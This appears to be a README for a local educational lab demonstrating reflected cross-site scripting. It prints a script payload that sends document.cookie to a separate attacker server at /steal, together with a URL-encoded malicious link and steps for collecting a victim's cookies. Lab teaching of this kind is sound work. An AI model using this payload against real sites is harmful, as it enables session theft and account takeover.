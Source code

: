 This labs only for education purpose. Don't use it in your infrastructure.

  First of all, try to install node_modules: npm install
  Then run attacker and server: node attacker.js, node server.js
  Paste payload in server input field: 
  <script>
    const cookies = encodeURIComponent(document.cookie);
    new Image().src = `http://localhost:3001/steal?cookie=${cookies}`;
  </script>

   You will see link to website like:
   http://localhost:3000/search?query=%3Cscript%3Enew%20Image().src%3D%22http%3A%2F%2Flocalhost%3A3001%2Fsteal%3Fcookie%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E
   Open true link at incognito mode to get coockie, then open malicious link in this incognito mode rowser, then go to console of atckker and look at stolen coockies.

  You also can use:
  docker-compose up --build
